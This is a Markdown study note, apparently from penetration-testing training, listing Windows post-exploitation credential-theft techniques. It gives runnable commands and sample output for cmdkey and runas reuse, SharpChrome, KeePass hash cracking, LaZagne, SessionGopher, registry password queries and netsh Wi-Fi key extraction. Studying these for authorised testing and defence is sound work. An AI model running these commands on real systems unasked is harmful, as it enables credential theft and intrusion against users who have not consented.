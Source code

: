 # Further Credential Theft

Credential theft goes beyond static discovery in config files or scripts. A compromised system may hold volatile, cached, or encrypted credentials retrievable through various tools or Windows features.

This section explores practical methods to **steal credentials post-compromise**, using tools and built-in commands.
## 1. `cmdkey` Saved Credentials

Windows stores credentials for services like RDP or share access via the **Credential Manager**.

**List stored creds:**

```cmd
cmdkey /list
```

**Sample Output:**

```
Target: LegacyGeneric:target=TERMSRV/SQL01
User: inlanefreight\bob
```

**Reuse via runas:**

```powershell
runas /savecred /user:inlanefreight\bob "powershell.exe -c 'IEX...'"
```
## 2. Browser Credential Theft (Chrome)

Use **SharpChrome** to extract saved Chrome credentials:

```powershell
.\SharpChrome.exe logins /unprotect
```

It decrypts Chrome's local state file and outputs saved logins and cookies.
## 3. KeePass (.kdbx) Hash Extraction

Download `.kdbx` files and extract hashes using `keepass2john`, then crack with Hashcat:

```bash
python2 keepass2john.py Help_Desk.kdbx > hash.txt
hashcat -m 13400 hash.txt rockyou.txt
```

**Mode:** `13400`  
**Tool:** `Hashcat` or `John the Ripper`
## 4. MailSniper (Email Credential Search)

If the target has a Microsoft Exchange inbox:

- Use **MailSniper** to search for keywords: `"pass"`, `"creds"`, `"credentials"`   

Useful for discovering credentials accidentally shared or auto-forwarded via email.
## 5. LaZagne (All-in-One Extractor)

LaZagne can recover credentials from:

- Browsers    
- Sysadmin tools (WinSCP, OpenVPN, etc.)
- Autologon creds
- CredMan
- Memorydumps

**Run all modules:**

```powershell
.\lazagne.exe all
```

**Sample WinSCP recovery:**

```
Login: root
Password: Summer2020!
```
## 6. SessionGopher (RDP/SSH/WinSCP)

PowerShell script to dump:

- PuTTY / WinSCP / SuperPuTTY sessions    
- Saved `.rdp`, `.ppk`, `.sdtid` files

**Usage:**

```powershell
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target localhost
```

Extracts credentials stored in HKEY_USERS.
## 7. Registry Stored Passwords

### Windows Autologon

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

Look for:

- `DefaultUserName`    
- `DefaultPassword`
- `AutoAdminLogon`
### PuTTY Registry Sessions

If proxy credentials are saved:

```cmd
reg query HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions
```

**Look for:**

- `ProxyUsername`    
- `ProxyPassword`

Accessible if attacker is local admin or same user.
## 8. Wi-Fi Credentials

Dump saved Wi-Fi profiles and extract pre-shared keys.

**List profiles:**

```cmd
netsh wlan show profile
```

**Extract password:**

```cmd
netsh wlan show profile <SSID> key=clear
```

**Example Output:**

```
Key Content            : ILFREIGHTWIFI-CORP123908!
```
## Summary Table

| Technique             | Target                       | Tool/Command               |
| --------------------- | ---------------------------- | -------------------------- |
| `cmdkey`              | Stored RDP/logon creds       | `cmdkey /list`             |
| Chrome creds          | Saved passwords              | `SharpChrome`              |
| KeePass cracking      | KeePass DB (.kdbx)           | `keepass2john` + `hashcat` |
| Email inbox search    | MS Exchange accounts         | `MailSniper`               |
| Multi-app dump        | Browsers, DBs, memory, DPAPI | `LaZagne`                  |
| RDP/SFTP session info | Registry + saved tools       | `SessionGopher`            |
| Registry secrets      | Autologon, PuTTY             | `reg query`                |
| Wi-Fi keys            | Pre-shared network passwords | `netsh wlan`               |
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #Credential_Hunting #Credential_Sniffing